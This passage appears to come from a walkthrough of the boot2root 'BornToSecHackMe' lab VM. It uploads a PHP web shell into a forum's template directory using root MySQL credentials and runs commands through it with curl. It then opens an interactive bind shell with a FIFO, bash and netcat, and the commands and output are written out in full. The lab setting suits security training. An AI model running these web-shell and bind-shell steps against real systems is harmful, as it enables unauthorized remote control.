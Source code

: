 ```bash
./upload.sh $(tr '/' ' ' < root.mysql.credentials) shell.php /var/www/forum/templates_c/shell.php
```
```
"Your SQL query has been executed successfully ( Query took 0.0002 sec )"
```

Nice, now we should be able to execute shell commands:
```bash
curl --insecure 'https://boot2root.vm/forum/templates_c/shell.php?cmd=ls'
```
```
11c603a9070a9e1cbb42569c40699569e0a53f12.file.admin.inc.tpl.php
2bd398249eb3f005dbae14690a7dd67b920a4385.file.login.inc.tpl.php
40bf370f621e4a21516f806a52da816d70d613db.file.user.inc.tpl.php
427dca884025438fd528481570ed37a00b14939c.file.ajax_preview.tpl.php
560a32decccbae1a5f4aeb1b9de5bef4b3f2a9e5.file.posting.inc.tpl.php
5cfe6060cd61c240ab9571e3dbb89827c6893eea.file.main.tpl.php
749c74399509c1017fd789614be8fc686bbfc981.file.user_edit.inc.tpl.php
8e2360743d8fd2dec4d073e8a0541dbe322a9482.english.lang.config.php
ad5c544b74f3fd21e6cf286e36ee1b2d24a746b9.file.user_profile.inc.tpl.php
b2b306105b3842dc920a1d11c8bb367b28290c2a.file.subnavigation_1.inc.tpl.php
d0af1f95d9c68edf1f8805f6009e021a113a569a.file.entry.inc.tpl.php
e9c93976b632dda2b9bf7d2a686f72654e73a241.file.user_edit_email.inc.tpl.php
f13dc3b8bcb4f22c2bd24171219c43f5555f95c0.file.index.inc.tpl.php
f75851d3a324a67471c104f30409f32a790c330e.file.subnavigation_2.inc.tpl.php
shell.php
test.txt
```

If netcat is installed, we can spawn a nicer interactive shell listener:
```bash
curl --insecure 'https://boot2root.vm/forum/templates_c/shell.php?cmd=which%20nc'
```
```
/bin/nc
```

I used a circular fifo to redirect the client input into the shell's input, like this:
```
FIFO="/tmp/f"
SHELL="bash"
NC="nc"
PORT=5555

rm -f '$FIFO'; mkfifo '$FIFO'; cat '$FIFO' | '$SHELL' -i 2>&1 | '$NC' -l '$PORT' 2>&1 > '$FIFO'
```

I created a script that executes this command using the php shell, and connect's to the vm, spawning a python pty that enables us to run interactive commands.
```bash
./shell.sh $(tr '/' ' ' < root.mysql.credentials)
```
```
www-data@BornToSecHackMe:/var/www/forum/templates_c$
```
